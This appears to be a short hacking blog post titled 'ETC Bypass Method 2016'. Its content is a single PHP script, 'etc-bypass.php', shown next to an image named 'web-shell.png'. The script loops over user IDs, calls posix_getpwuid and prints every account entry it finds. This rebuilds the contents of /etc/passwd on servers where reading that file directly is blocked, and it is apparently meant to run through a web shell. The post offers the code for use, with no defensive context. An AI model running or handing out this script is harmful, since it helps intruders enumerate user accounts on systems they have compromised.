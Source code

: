 ```yaml
---
layout: post
title: ETC Bypass Method 2016
date: 2023-08-26 22:50
tags: [Hacking]
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":8236,"width":"504px","height":"auto","sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2023/08/web-shell.png?w=1024" alt="" class="wp-image-8236" style="width:504px;height:auto" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>etc-bypass.php</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">&lt;?php for($uid=0;$uid&lt;2000;$uid++){ //cat /etc/passwd $nothing = posix_getpwuid($uid); if (!empty($nothing)) { while (list ($key, $val) = each($nothing)){ print "$val:"; } print "&lt;br /&gt;"; } } ?&gt;</pre>
<!-- /wp:preformatted -->
